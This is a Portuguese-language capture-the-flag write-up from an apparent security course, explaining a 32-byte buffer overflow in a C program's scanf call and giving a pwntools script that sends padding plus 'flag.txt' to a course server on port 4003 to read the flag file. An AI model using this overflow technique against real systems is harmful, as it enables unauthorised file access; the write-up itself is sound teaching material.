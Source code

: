 ![image](images/task4_4.png)

# CTF Semana #5 (Buffer Overflow)

## Desafio 1
Inicialmente, procedemos à análise dos arquivos fornecidos, que coincidem com os que vão ser executados no servidor na porta 4003.

Ao utilizar o comando checksec, foi possível constatar que o programa program possui arquitetura x86, não apresenta aleatorização de código e carece de proteções relacionadas ao endereço de retorno.

Posteriormente, aprofundamos a compreensão do funcionamento do código main.c, identificando que este reserva 8 bytes de memória para o nome do arquivo meme_file e 32 bytes para a resposta do usuário, armazenada no buffer.

Observamos ainda que a função scanf possibilita a cópia de, no máximo, 40 bytes oriundos do stdin para o buffer previamente declarado. Isso implica que, em cenários em que a entrada ultrapassa 32 bytes, há o potencial de ocorrer overflow do buffer.

```c
char meme_file[8] = "mem.txt\0";
char buffer[32];
scanf("%40s", &buffer);
```

Agora, com estas informações, modificando e executando o script fornecido exploit-example.py para escrever 40 bytes, sendo os últimos 8 bytes "flag.txt".

O código do exploit-example.py passaria então a ser o seguinte:

```python
#!/usr/bin/python3
from pwn import *

DEBUG = False

if DEBUG:
    r = process('./program')
else:
    r = remote('ctf-fsi.fe.up.pt', 4003)

r.recvuntil(b":")
r.sendline(b"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaflag.txt") # 32 a's
```